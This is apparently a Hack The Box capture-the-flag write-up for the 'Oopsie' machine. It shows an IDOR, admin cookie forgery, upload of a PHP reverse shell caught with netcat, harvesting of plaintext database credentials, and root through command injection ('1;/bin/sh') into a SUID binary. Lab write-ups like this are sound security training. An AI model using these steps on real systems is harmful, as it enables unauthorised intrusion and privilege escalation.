HTB Writeup
Oopsie
LINUX
EASY
IDOR
COOKIE TAMPERING
FILE UPLOAD
SUID COMMAND INJECTION
TARGET // 10.129.46.89
01 Recon
$ nmap -sC -sV 10.129.46.89
| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80 | HTTP | Apache httpd 2.4.29 (Ubuntu) — http-title: "Welcome" |
02 Web Enumeration
- Root page (
http://10.129.46.89/) — "MegaCorp Automotive" corporate site, static content, footer contact:admin@megacorp.com - View-source revealed a script reference:
<script src="/cdn-cgi/login/script.js"></script>— non-standard path under/cdn-cgi/ - Visiting
http://10.129.46.89/cdn-cgi/login/directly reveals a hidden login panel with a "Login as Guest" option - Logged in as Guest (
POST /cdn-cgi/login/?guest=true→ 302) → redirected to Admin Panel (admin.php) - Admin Panel exposes several
content=parameters:accounts&id=2,branding&brandId=2,clients&orgId=2,uploads - IDOR: changing
id=2toid=1onadmin.php?content=accounts&id=1discloses the admin account instead of the guest account — Access ID34322, Nameadmin, Emailadmin@megacorp.com - Auth bypass via cookie tampering: setting cookies
user=34322androle=admin(values learned from the IDOR) grants full admin access to the Uploads page — confirms authorization is enforced client-side via cookies, not server-side session validation




03 Exploitation — File Upload → Shell
- Uploads page ("Branding Image Uploads",
admin.php?content=uploads&action=upload) accepts arbitrary file uploads with no extension/content-type filtering - Without the
user=34322; role=admincookies, POST to the upload endpoint returns302→ redirected to login (unauthorized) - With the cookies set (via Burp Repeater), uploading
php-reverse-shell.php(pentestmonkey) returns200 OK— "The file has been uploaded." - Uploaded filename saved based on the form's
namefield, not the file's original filename — uploading withname=shellsaved the file as/uploads/shell.php




$ nc -lvnp 1234 $ curl http://10.129.46.89/uploads/shell.php → shell received as www-data (uid=33)

04 Stable Reverse Shell
- Upgraded to a proper TTY:
python3 -c 'import pty; pty.spawn("/bin/bash")' - Backgrounded with
Ctrl+Z, then on the attacker side:stty raw -echo; fgandexport TERM=xterm— stable interactive shell aswww-data
user.txt // f2c74ee8db7983851ab2a96a44eb7981

05 PrivEsc → Root
sudo -laswww-data— no known password, sudo prompts and fails after 3 attemptsfind / -perm -4000 -type f 2>/dev/null— mostly standard SUID binaries, but one stands out:/usr/bin/bugtracker— a custom, non-standard SUID binary, ownedroot:bugtracker(-rwsr-xr--) —www-datanot in that group, permission denied- Found DB config with plaintext credentials:
$ find /var/www/ -iname "*.php" 2>/dev/null | xargs grep -il "password\|mysql\|db_" 2>/dev/null
→ /var/www/html/cdn-cgi/login/db.php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');

su robertwith those credentials → successfully switched to user robert (groups=1000(robert),1001(bugtracker))sudo -las robert — not permitted to run sudo- Ran
/usr/bin/bugtracker(SUID root, groupbugtracker) — prompts "Provide Bug ID:", internally callscatviasystem()on the raw input with no sanitization - Command injection: supplying
1;/bin/shas the Bug ID drops into a shell — confirmed root viawhoami

root.txt // af13b0bee69f8a877c3faf667f7beacf
